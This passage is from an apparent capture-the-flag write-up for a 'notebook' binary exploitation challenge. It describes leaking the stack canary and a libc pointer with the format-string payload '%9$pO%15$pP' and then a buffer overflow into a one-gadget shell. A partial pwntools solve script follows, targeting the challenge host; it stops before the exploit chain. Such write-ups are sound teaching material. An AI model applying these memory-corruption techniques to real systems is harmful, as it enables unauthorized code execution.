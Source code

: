 ## Leaking Values
Since the only check we need to pass is the length check it is quite easy to leak values. just send a payload of 11 characters. This way we can send a format string too leak some values off the stack

I used the following payload `%9$pO%15$pP`
The O and P are just to pad, and make parsing leaks from the output easier.
Since I want to Buffer overflow in the next section, I leaked the canary `%9$P`, and a pointer to libc `%15$p`


### Buffer Overflow
If you look above to the section where a date is read in, it reads a total of 0x60 characters from stdin. The buffer is only size 0x20, resulting in a buffer overflow. 

To pass the date check, just make sure the first 11 characters match the format, and then send the rest of the payload. I used 11/Nov/1111 to match the date. 

After this, I used the same One Gadget as I used above to spawn a shell.

### solve.py

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("notebook_patched")
libc = ELF("libc.so.6")
ld = ELF("ld-linux-x86-64.so.2")

context.binary = exe


def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.DEBUG:
            gdb.attach(r)
    else:
        r = remote("challs.dantectf.it", 31530)

    return r


r = conn()
sla = lambda a,b : r.sendlineafter(f'{a}', f'{b}')
ru = lambda a : r.recvuntil(f'{a}')


def create(index, payload):
    sla(">", 1)
    sla(":", index)
    sla(":", "chef")
    sla(":", 1)
    r.sendlineafter(":", payload)

def view(index):
    sla(">", 4)
    sla(":", index)


def main():
    global r
    one_gadget = 0x50a37 
```